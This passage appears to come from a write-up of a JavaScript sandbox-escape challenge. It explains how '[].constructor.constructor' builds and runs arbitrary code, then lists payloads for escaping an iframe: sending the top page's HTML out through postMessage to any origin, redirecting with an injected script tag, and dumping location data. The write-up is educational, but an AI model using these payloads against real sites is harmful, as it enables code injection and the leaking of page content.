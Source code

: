 **What this does:**
- `[].constructor` - Gets the Array constructor
- `.constructor` - Gets the Function constructor (constructor of Array constructor)
- `"alert('RCE!')"` - JavaScript code as a string
- `()` - Executes the constructed function
- **Result:** Achieves Remote Code Execution by dynamically creating and executing JavaScript

![Alert](Alert.png)

### Step 5: Iframe Escape Attempts

**PostMessage Approach:**
```javascript
[].constructor.constructor(`
  try {
    top.postMessage(top.document.documentElement.outerHTML, '*');
  } catch (e) {
    document.write(e.toString());
  }
`)();
```

**URL Manipulation:**
```javascript
[].constructor.constructor("location.href='/?pwned=<script>alert(1)</script>'")();
```

**Location Information Gathering:**
```javascript
[].constructor.constructor(`
  document.write(
    "href: " + location.href + "<br>" +
    "origin: " + location.origin + "<br>" +
    "host: " + location.host + "<br>" +
    "hostname: " + location.hostname + "<br>" +
    "pathname: " + location.pathname + "<br>" +
    "search: " + location.search + "<br>" +
    "hash: " + location.hash
  )
`)()
```
